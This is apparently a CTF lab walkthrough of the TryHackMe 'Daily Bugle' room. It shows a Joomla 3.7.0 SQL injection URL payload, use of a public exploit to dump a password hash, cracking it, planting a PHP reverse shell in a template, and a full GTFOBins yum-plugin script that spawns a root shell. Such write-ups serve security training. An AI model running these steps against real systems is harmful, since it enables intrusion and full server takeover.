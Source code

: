 **Daily Bugle***

***IP=10.10.206.138***

***Difficulty = Hard**

After scanning the IP with rustscan, I found 3 open ports:

22, 80, 3306

***Web Enumeration***

Opening the URL in browser, I found that it was using Joomla CMS also described in the room's description.
I scanned the URL with gobuster and nikto and no juicy directories were there.
In the homepage, we can find a blog about a robbery with text as:

```
The criminal we call "Spider-Man" is back at it, clearly as seen in the image, Spider-Man is nothing more than a criminal, and I have proof, Sure he saves people all the time for free with nothing in return, but a media company like this always has to exist.
```

So the answer to the first question would be SpiderMan.

For joomla enumeration, I used [joomscan](https://github.com/OWASP/joomscan) from OWASP. 
From there, I found out the version of Joomla CMS being used. 

Version: 3.7.0

Now I searched for any exploit for this version on searchsploit.
I found an SQLi exploit.

```
Joomla! 3.7.0 - 'com_fields' SQL Injection
```
Searchsploit had a text file telling about how we can exploit the vulnerability.

```
URL Vulnerable: http://10.10.206.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

I found out a great exploit for this vulnerability: [joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah)
On running this exploit with the URL, I got the table Users with its contents.

```
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
I used john the ripper to crack the password.

Save the hash in a file, say hash.
Now run john hash --wordlist=<Path-to-rockyou>

It took me around 10-12 minutes to crack the password.
If you want to crack fast use:

```
sed -n '45000,50000p' <Path-to-rockyou> > pass.txt
```

It will store contents of rockyou from 45000-50000 in pass.txt.
And now use john with this wordlist.
We got the password for jonah as spiderman123.

It is also the Super user for the website.

Now login with these creds in the administrator directory of joomla.
To get a reverse shell, I went to templates and edited the index.php with a php reverse shell script.

Start a netcat listener on a terminal and click on preview template.
I got a reverse shell as apache user.

***User.txt***

To escalate privelleges from apache user to jjameson, I found out jjameson's password in /var/www/html/configuration.php page.
Now ssh into machine with jjameson creds.

User.txt is present in jjameson's home directory.

***Root.txt***

When I ran sudo -l, to see what files jjameson can run as root, i found that i can run yum as root.
A quick search on gtfobins, gave me an idea of how I can escalate my privelleges to root.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
These commands will give root shell.

Now go to /root and get root.txt
